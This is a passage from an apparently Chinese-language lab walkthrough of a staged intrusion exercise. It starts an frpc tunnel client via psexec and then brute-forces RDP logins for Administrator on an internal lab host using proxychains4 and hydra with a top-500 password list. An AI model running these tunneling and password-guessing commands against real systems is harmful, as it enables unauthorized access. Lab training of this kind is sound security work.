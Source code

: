 `psexec.exe`运行的命令行中执行命令启动代理客户端：

```
c:\frpc.exe -c c:\frpc.ini
```

![image-20220616135731142861-1655884164222031.png](img/Untitled.assets/0ece8b09aad4ffe5fc8c753059cd3379.png)

隧道建立成功。

#### 阶段五：User

##### 任务11：密码爆破（T1110 - 暴力破解）

登录`Kali攻击机`，修改代理地址：

![image-20220616140009916724-1655884165536517.png](img/Untitled.assets/ec36291e42ac6fe970cd1d06570e29ad.png)

进入`/root/Desktop/Tools/fuzzDicts/passwordDict`目录，右键打开终端，执行命令爆破：

```
proxychains4 hydra -l Administrator -P top500.txt rdp://192.168.3.100 -V
```
